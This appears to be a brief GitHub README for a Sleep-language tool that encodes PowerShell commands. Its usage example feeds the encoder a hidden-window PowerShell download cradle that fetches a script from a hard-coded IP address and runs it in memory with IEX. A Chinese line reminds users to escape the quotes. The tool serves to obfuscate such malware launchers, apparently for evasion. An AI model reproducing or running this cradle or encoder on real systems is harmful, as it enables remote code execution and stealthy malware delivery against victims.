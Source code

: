 # Sleep_powershell_encoder
powershell encoder wiritten by Sleep
## usage：
java -jar sleep.jar powershell_encoder.sl "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.135:80//awww'))\""
## ！不要忘记转译powershell命令中的双引号！
![image](https://user-images.githubusercontent.com/38530231/137760133-01106b3e-a359-41c9-9de4-3e77c7eb5309.png)
